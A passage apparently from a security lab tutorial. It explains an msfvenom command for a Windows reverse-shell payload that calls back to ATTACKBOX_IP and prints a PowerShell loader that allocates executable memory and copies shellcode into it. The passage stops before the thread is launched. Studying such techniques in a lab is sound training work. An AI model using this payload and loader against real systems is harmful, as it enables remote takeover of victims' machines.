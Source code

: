 
The above command generates a piece of shellcode using `msfvenom`. Here's what each part means:

- `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
- `LHOST=ATTACKBOX_IP`: This is the IP address of the AttackBox. It tells the reverse shell where to connect back to.
- `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
- `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine.  
    

**Where Is the Actual Shellcode**

The actual shellcode in the output above is the hex-encoded byte array, which starts with `0xfc, 0xe8, 0x82`, and so on. The hexadecimal numbers represent the instructions set on the target machine. Computers understand binary (1s and 0s), but hex numbers are just a more human-readable version. So, instead of seeing long strings of 1s and 0s, you see something like `0xfc` instead.  

We can execute this shellcode by loading it into memory and then creating a thread for its execution. In this case, we will use PowerShell to call a few Windows APIs via C# code. Below is a simple PowerShell script that will execute our shellcode:

```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
```